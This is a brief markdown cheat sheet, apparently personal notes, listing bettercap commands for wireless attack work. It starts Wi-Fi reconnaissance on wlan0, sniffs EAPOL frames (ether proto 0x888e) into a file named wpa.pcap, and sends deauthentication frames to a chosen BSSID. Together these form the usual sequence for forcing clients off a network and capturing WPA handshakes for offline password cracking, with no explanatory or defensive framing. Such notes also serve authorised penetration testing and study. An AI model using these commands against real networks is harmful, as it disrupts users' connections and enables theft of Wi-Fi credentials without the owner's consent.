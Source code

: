 # Bettercap

```
bettercap -iface wlan0 # Enter bettercap shell
```

## Bettercap Shell
```
wifi.recon on
wifi.show

set wifi.recon.channel <channel>

set net.sniff.verbose true
set net.sniff.filter ether proto 0x888e
set net.sniff.output wpa.pcap

net.sniff on

wifi.deauth <bssid>
```
